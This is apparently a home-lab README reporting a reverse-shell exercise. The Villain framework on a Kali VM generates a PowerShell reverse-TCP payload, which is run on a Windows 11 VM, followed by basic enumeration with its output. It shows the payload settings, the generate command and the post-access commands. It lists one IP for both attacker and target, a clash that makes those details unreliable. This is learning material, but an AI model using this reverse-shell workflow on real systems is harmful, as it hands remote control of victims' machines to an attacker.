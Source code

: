 # 🐚 Villain Framework Reverse Shell Report

## ⚙️ Setup Info
- **Payload:** `windows/reverse_tcp/powershell`
- **LHOST:** `192.168.56.101`
- **LPORT:** `65001`

## 🔁 Payload Delivery Method
The payload was generated in Villain using the command:
generate os=windows lhost=eth1

It was then copied and executed in PowerShell on the Microsoft Windows 11 Home Single Language target VM (running on the same internal VirtualBox network as the Kali attacker VM).

## 🖥️ Captured Info
- **Hostname:** `ABHISHEKPC`
- **IP Address:** `192.168.56.101`
- **User:** `abhis`

## 📸 Screenshots
1. Villain access Screenshot
![](Screenshots/Screenshot1.png)
2. Payload generation in linux
![](Screenshots/Screenshot3.png)
3. Payload testing in windows
![](Screenshots/Screenshot4.png)
4. Executing Commands
![](Screenshots/Screenshot2.png)
![](Screenshots/Screenshot5.png)
![](Screenshots/Screenshot6.png)
![](Screenshots/Screenshot7.png)
![](Screenshots/Screenshot8.png)
![](Screenshots/Screenshot9.png)
![](Screenshots/Screenshot10.png)

## 🔎 Enumeration Performed
whoami
ipconfig
systeminfo

# Checking current user
whoami
# Output: abhis(ABHISHEK ANIL GEORGE)

# Checking network configuration
ipconfig
# Output: IPv4 Address. . . . . . . . . . . : 192.168.56.101

# Gathering system information
systeminfo
# Output: Hostname: ABHISHEKPC
# OS Name: Microsoft Windows 11 Home Single Language 
# OS Version: 10.0.26100 N/A Build 26100 
